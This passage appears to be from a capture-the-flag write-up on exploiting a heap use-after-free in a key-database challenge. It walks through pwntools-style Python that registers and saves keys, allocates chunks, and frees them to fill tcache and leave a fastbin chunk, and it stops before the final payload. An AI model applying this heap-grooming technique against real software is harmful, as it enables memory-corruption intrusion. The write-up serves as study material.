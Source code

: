 1. Save some keys to database to increase it's size.
```python
def gen(length):
    alphabet = string.ascii_letters + string.digits
    return (''.join(secrets.choice(alphabet) for _ in range(length))).encode()
```
I wrote this function to generate some random strings , Which i will use later to generate keys like
USER:ROLE T3dKZVRXSTh4Qm1OeEhORjY5ZVRKbkVVQ0pNQW1MMmk1eEQ5emh0MG5Eb3FDa3hIWHUK;

Here is the code for saving keys to the database
```python
for i in range(1, 15):
    prog = log.progress("Registering new key", "...")
    key = b"hacker" + gen(1) + b":user " + gen(68) + b";"
    
    if reg(key):
       prog.success(key.decode())
    else:
       prog.failure(key.decode())

    prog = log.progress("Saving key: ", "...")
    
    if save(1):
       prog.success("Saved")
    else:
       prog.failure("Not Saved")
    
    delk(1)
    sleep(1)
```
I have used only one chunk to store, save the key then delete the chunk to use it again.

2. Allocate 8 chunks.

```python
for i in range(1, 8):
    reg(key)
```

3. Authenticate with chunk in index 8, then when free we have a fastbin chunk.
```python
MASTER_KEY = b"master:user " + gen(68) + b";"

log.info("Exploiting UAC")
log.info("Save the master key.")
reg(MASTER_KEY)
save(8)
reload_db()
auth(8)
```
I used a key called it master key , you can use any normal key but I liked the idea of using special key to my exploit ;).

4. Free the chunks to fill tcache and have a fastbin chunk.
```python
for i in range(1, 9):
    sleep(1)
    delk(i)
```

